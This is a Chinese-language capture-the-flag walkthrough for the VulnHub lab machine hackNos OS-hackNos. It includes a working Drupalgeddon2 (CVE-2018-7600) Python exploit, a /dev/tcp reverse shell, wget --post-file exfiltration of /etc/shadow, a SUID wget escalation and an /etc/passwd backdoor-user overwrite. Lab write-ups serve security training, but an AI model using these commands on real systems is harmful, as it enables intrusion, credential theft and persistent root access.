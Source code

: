 # HACKNOS: OS-HACKNOS

2025.02.16 https://www.vulnhub.com/entry/hacknos-os-hacknos,401/

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先看 80 web，首页源码无隐藏内容，gobuster 目录扫描发现：

```
http://192.168.5.40/drupal               (Status: 301) [Size: 313] [--> http://192.168.5.40/drupal/]
http://192.168.5.40/alexander.txt        (Status: 200) [Size: 393]
```

访问 http://192.168.5.40/alexander.txt base64 转码 ：

```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKysuLS0gLS0tLS0gLS0uPCsgKytbLT4gKysrPF0gPisrKy4KLS0tLS0gLS0tLjwgKysrWy0gPisrKzwgXT4rKysgKysuPCsgKysrKysgK1stPi0gLS0tLS0gLTxdPi0gLS0tLS0gLS0uPCsKKytbLT4gKysrPF0gPisrKysgKy48KysgKysrWy0gPisrKysgKzxdPi4gKysuKysgKysrKysgKy4tLS0gLS0tLjwgKysrWy0KPisrKzwgXT4rKysgKy48KysgKysrKysgWy0+LS0gLS0tLS0gPF0+LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS4rLi0gLS0tLisKKysuPA==

+++++ +++++ [->++ +++++ +++<] >++++ ++.-- ----- --.<+ ++[-> +++<] >+++.
----- ---.< +++[- >+++< ]>+++ ++.<+ +++++ +[->- ----- -<]>- ----- --.<+
++[-> +++<] >++++ +.<++ +++[- >++++ +<]>. ++.++ +++++ +.--- ---.< +++[-
>+++< ]>+++ +.<++ +++++ [->-- ----- <]>-. <+++[ ->--- <]>-- -.+.- ---.+
++.<
```

是一个 Brainfuck 编码，解密后内容为 james:Hacker@4514 尝试用此凭据 ssh 登陆，密码不对。

在看 http://192.168.5.40/drupal 这个 cms，使用上面得到的凭据登陆系统，版本为 Drupal 7，有可以直接的漏洞利用，https://github.com/firefart/CVE-2018-7600/blob/master/poc.py 使用这个 exp：

```python
import requests
import re

HOST="http://192.168.5.40/drupal/"

get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':'id', 'name[#type]':'markup'}
post_params = {'form_id':'user_pass', '_triggering_element_name':'name'}
r = requests.post(HOST, data=post_params, params=get_params)
print(r.text)
m = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
if m:
    found = m.group(1)
    get_params = {'q':'file/ajax/name/#value/' + found}
    post_params = {'form_build_id':found}
    r = requests.post(HOST, data=post_params, params=get_params)
    print(r.text)
```

执行后，可以看到 www-data 的输出，直接反弹 shell：

```
get_params = {'q':'user/password', 'name[#post_render][]':'passthru', 'name[#markup]':'/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"', 'name[#type]':'markup'}
```

得到反弹的连接后，先的到了第一个 flag：

```
www-data@hackNos:/home/james$ cat user.txt
   _
  | |
 / __) ______  _   _  ___   ___  _ __
 \__ \|______|| | | |/ __| / _ \| '__|
 (   /        | |_| |\__ \|  __/| |
  |_|          \__,_||___/ \___||_|



MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

发现 cms 数据库的配置文件：

```
www-data@hackNos:/var/www/html/drupal$ cat /var/www/html/drupal/sites/default/settings.php

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'cuppa',
      'username' => 'cuppauser',
      'password' => 'Akrn@4514',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

进行系统枚举，发现 suid 程序 wget，尝试用 GTFOBin 中的方法，但是提示没有 --use-askpass 这个参数，应该是版本太老了：

```
TF=$(mktemp);chmod +x $TF;echo -e '#!/bin/sh\n/bin/sh -p 1>&0' >$TF;/usr/bin/wget --use-askpass=$TF 0
```

使用另外一种方式，wget 读取 root 用户文件，然后传输到 kali 上：

```
# kali 上监听8888
nc -lvnp 8888

# 目标机器上执行
wget --post-file=/etc/shadow 192.168.5.3:8888
```

这时在 kali 上得到了 shadow 文件：

```
root:$6$ii3GEj5H$DHrrLj9Q9Bpux.aVR9fy1e240PyBPSI/yh5WGRUyN7TN7Ulb5rFO0CoAVRY8UYvdxhgw142tkmgyqubP4l1ta0:18216:0:99999:7:::
james:$6$ImB2eoJe$bnE3xrR1mBD1WtBjccl2Nh74wqDqJtMklx1lTEJyouewzdWRICla32oHXz9YNq0hImAoCSkM2tRyvQhxEuO9e.:18216:0:99999:7:::
```

rockyou 尝试破解没戏。

同时也可以直接读 wget --post-file=/root/root.txt 192.168.5.3:8888 得到最后的 root flag：

```
    _  _                              _
  _| || |_                           | |
 |_  __  _|______  _ __  ___    ___  | |_
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_
   |_||_|         |_|   \___/  \___/  \__|



MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com
```

另外一种提权到 root 的思路，wget 直接覆盖/etc/passwd 文件，在 kali 上将添加过后门用户的 passwd 写入到目标机器上：

```
openssl passwd -1 -salt new 456
$1$new$DEG4GSAwR8rsoc/FNKp0Q1

admin:$1$new$DEG4GSAwR8rsoc/FNKp0Q1:0:0:root:/root:/bin/bash
```

先读取目标机器上的 passwd 文件，将 `admin:$1$new$DEG4GSAwR8rsoc/FNKp0Q1:0:0:root:/root:/bin/bash` 添加到最后一行，在 kali 上创建 http，然后在目录机器上执行下面命令：

```
cd /etc
wget -O passwd http://192.168.5.3/z/passwd

su admin # 输入密码456
```

最终也得到了 root 权限：

```
root@hackNos:~# cat root.txt
    _  _                              _
  _| || |_                           | |
 |_  __  _|______  _ __  ___    ___  | |_
  _| || |_|______|| '__|/ _ \  / _ \ | __|
 |_  __  _|       | |  | (_) || (_) || |_
   |_||_|         |_|   \___/  \___/  \__|



MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Linkedin : https://www.linkedin.com/in/rahulgehlaut/

Blog : www.hackNos.com
```
